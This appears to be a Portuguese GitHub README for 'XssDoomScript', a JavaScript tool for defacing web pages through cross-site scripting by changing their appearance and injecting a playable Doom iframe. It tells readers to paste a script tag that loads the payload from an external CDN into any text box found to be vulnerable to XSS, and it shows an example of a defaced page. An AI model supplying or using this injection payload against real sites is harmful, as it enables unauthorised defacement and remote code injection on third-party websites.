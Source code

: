 # XssDoomScript 
## Um código javascript simples, usado para alterar aspectos da página (Deface) por meio de vulnerabilidade XSS</h2>

<p>O código consiste em um javasctipt para alterar a página (Deface) e injetar um iframe jogável do jogo Doom.</br> 
Alguns atributos como cor de fundo, resolução do iframe e texto a serem exibido podem ser alterados no cabeçalho de constantes do script</p>

## Como testar o script ? 
<p>Caso já tenha achado alguma caixa de texto que possui a vulnerabilidade XSS explorável, apenas cole o seguinte código :  '<script src='https://cdn.jsdelivr.net/gh/Daniel-kenobi/XssDoomScript@main/script.js'></script>' . Após isso o script já irá alterar os aspectos da página</p>

##### Exemplo de como o deface fica após explorado
<p align="center">
    <img src="https://i.ibb.co/QCt9SNz/Deface-Example.png" alt="Deface-Example" width="600" height="400">
</p>
